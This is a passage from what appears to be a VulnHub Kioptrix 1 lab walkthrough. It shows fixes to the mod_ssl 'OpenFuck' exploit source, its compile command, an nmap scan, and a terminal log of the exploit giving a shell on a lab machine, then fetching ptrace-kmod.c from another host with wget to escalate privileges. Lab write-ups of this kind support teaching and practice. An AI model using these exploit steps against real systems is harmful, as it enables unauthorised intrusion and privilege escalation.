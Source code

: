 		```
		if (EVP_PKEY_get1_RSA(pkey) == NULL) {
		```
	6. Line 1085: Replace
		```
		encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], EVP_PKEY_get1_RSA(pkey), RSA_PKCS1_PADDING);
		```
	7. Install
		```
		apt-get install libssl-dev
		```
	8. Compile
		```
		gcc -o 764 764.c -lcrypto
		```

1. Run the exploit
	- NMAP Scan 
		```
		80/tcp   open  http        syn-ack ttl 64 Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
		|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
		| http-methods: 
		|   Supported Methods: GET HEAD OPTIONS TRACE
		|_  Potentially risky methods: TRACE
		```
		- Red-Hat/Linux
		- Apache/1.3.20
	- Exploit
		```
		┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/mod_ssl]
		└─# gcc -o 764 764.c -lcrypto

		┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/mod_ssl]
		└─# ./764 | grep "RedHat" | grep "1.3.20"
			0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
			0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2

		┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/mod_ssl]
		└─# ./764 0x6b $ip 443 -c 50
		Connection... 50 of 50
		Establishing SSL connection
		cipher: 0x4043808c   ciphers: 0x80f8258
		Ready to send shellcode
		Spawning shell...
		bash: no job control in this shell
		bash-2.05$ 
		ace-kmod.c; rm ptrace-kmod.c; ./p;  wget 192.168.1.1/ptrace-kmod.c; gcc -o p ptr 
		--04:45:09--  http://192.168.1.1/ptrace-kmod.c
				   => `ptrace-kmod.c'
		Connecting to 192.168.1.1:80... connected!
		HTTP request sent, awaiting response... 200 OK
		Length: 3,921 [text/x-csrc]
